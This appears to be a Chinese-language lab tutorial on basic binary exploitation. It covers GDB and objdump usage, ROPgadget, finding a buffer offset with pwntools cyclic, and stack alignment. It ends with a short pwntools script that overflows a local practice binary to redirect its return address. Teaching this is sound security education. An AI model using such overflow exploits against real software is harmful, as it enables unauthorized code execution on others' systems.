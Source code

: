 # Exploit
## Disassembly Tool - GDB
- 設定成 intel 版本
```
set disassembly-flavor intel

```
- 查看組語 / 反編譯
```
lay <asm/src>
```
- 常用參數介紹
    - `b <func>` 設定 Break point
    - `r` 開始執行
    - `ni` 執行下一個指令，如果是 func 直接執行完成
    - `si` 執行下一個指令，逐行執行 func 指令
    - `continue` 執行至斷點
    - `x/[Size Modifiers][Format]` 顯示記憶體資料
    - Size
        - b(byte)/1 byte (8-bit)
        - h(Halfword)/2 byte (16-bit)
        - w(Word)/4 byte (32-bit)
        - g(Giant Word)/8 byte(64-bit)
    - Format
        - o octal
        - x hexadecimal
        - b binary
        - s string
        - i 組合語言


## Disassembly Tool - objdump
- 看組語
```
objdump -d <binary>
```

## Find ROP
- **ROPgadget**
```
sudo -H python3 -m pip install ROPgadget
```
```
ROPgadget --binary <$binary> (--only <$command>)
```
## Finding Offset
- 找出 padding 長度
    - 通靈
        - 這部份我可能沒有
    - GDB
    - cyclic in pwntools

- 利用 cyclic 去產生連續字串
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/74ba82a5-1eb6-4da1-ab45-98afffa8ff10)
- 利用 gdb 去找長度
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/2882bab9-49b7-46af-8239-068e8003e749)
- 剛好 6c 就在 l
```
cyclic_find('laaa')
```
- return 位置就在 buf 後面 約 44 bytes

### Stack Alignment
- 在尋找 Return Address 的位置時可能會發現一些奇怪的地方
- 明明 Buf 大小就沒有設定那麼大，padding 為什麼那麼大
- 針對區域變數如果只有 1 byte 或不到 4 bytes 的資料對齊調整 (32 位元)

## Exploit
- objdump 查看函數位址
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/9072e5a1-64f7-4bc9-b465-acb4904a4210)
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/a95bb480-cf34-40c2-b4a2-8e2ce461e87d)

- 寫 code 攻擊
```python=
from pwn import *

r = process("./pwn")

padding = (b"a"*44)
add = p32(0x080491c6)
r.sendline(padding+add)
r.interactive()
```
## REF
> [GDB](https://ithelp.ithome.com.tw/articles/10227380)
> [ROP](https://tech-blog.cymetrics.io/posts/crystal/pwn-intro-2/)
> [GDB2](https://stackoverflow.com/questions/55040576/how-to-change-the-disassembly-syntax-to-intel-using-gdb)
